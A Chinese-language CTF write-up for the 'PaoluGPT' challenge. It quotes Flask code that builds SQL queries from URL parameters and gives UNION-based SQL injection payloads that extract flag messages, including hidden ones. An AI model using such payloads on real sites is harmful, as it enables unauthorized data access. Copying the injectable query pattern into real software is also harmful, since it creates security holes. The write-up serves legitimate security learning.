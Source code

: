 ```
/execute?cmd=whynotgivemetheflag
```

# PaoluGPT

观察网页后端源代码：

```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

网站将URL参数`conversation_id`直接传入sql查询语句中，因此存在一个很明显的注入点，我们使用「联合查询注入」，直接查询`contents`字段中存在`flag`的数据

```
view?conversation_id=' union select title, contents from messages where contents like '%flag%'--
```

发现返回了一个大量空白的网页，我们直接在网页中搜索`flag`，即可得到一个flag

继续观察源代码：

```python
@app.route("/list")
def list():
    results = execute_query("select id, title from messages where shown = true", fetch_all=True)
    messages = [Message(m[0], m[1], None) for m in results]
    return render_template("list.html", messages=messages)
```

我们可以发现查询语句中存在一个`shown = true`的条件，因此如果直接使用爆破的方式遍历聊天记录列表，只能得到符合这个条件的flag

> 我做到这里才发现我好像直接把两道题都做完了

我们给前面的注入语句加入`shown = true`和`shown = false`的条件

```
view?conversation_id=' union select title, contents from messages where shown = true and contents like '%flag%'--
```

```
view?conversation_id=' union select title, contents from messages where shown = false and contents like '%flag%'--
```

即可分别得到两道题的flag